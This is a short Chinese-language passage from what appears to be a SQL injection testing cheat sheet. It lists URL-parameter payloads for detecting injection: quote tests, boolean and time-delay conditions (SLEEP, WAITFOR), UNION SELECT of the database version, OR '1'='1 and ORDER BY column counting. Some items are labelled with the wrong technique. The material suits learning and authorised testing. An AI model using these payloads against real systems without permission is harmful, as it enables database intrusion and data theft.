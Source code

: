 注入

## 5 判断是否存在 SQL 注入

1. **单引号测试（'）：**

   ```
   ?id=1'
   ```

2. **双引号测试（"）：**

   ```
   ?id=1"
   ```

3. **错误消息分析：**

   ```
   ?id=1' AND 1=1-- 
   ?id=1' AND 1=2-- 
   ```

4. **布尔测试：**

   ```
   ?id=1' AND SLEEP(5)-- 
   ?id=1' AND 1=2 UNION SELECT 1,2,3-- 
   ```

5. **时间延迟测试：**

   ```
   ?id=1' AND SLEEP(5)-- 
   ?id=1' WAITFOR DELAY '0:0:5'-- 
   ```

6. **报错注入：**

   ```
   ?id=1' UNION SELECT 1,@@VERSION,3-- 
   ```

7. **逻辑测试：**

   ```
   ?id=1' OR '1'='1
   ?id=1' AND '1'='2
   ```

8. **顺序注入**

   ```
   ?id=1 order by 1
   ?id=1 order by 100
   ```

### 5.1 数字型

尝试传递逻辑错误
